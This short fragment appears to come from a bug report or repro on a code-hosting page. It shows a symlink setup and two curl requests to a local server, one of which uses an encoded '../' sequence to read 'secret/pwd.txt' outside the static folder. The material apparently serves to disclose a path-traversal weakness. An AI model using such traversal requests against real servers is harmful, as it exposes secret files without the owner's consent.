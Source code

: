 ln -s /Users/<username>/<path>/<to>/<project>/static /Users/<username>/<path>/<to>/<project>//src/main/resources/static/link

curl http://localhost:8080/static/link/static.txt

curl http://localhost:8080/static/link/%2e%2e%2fsecret/pwd.txt
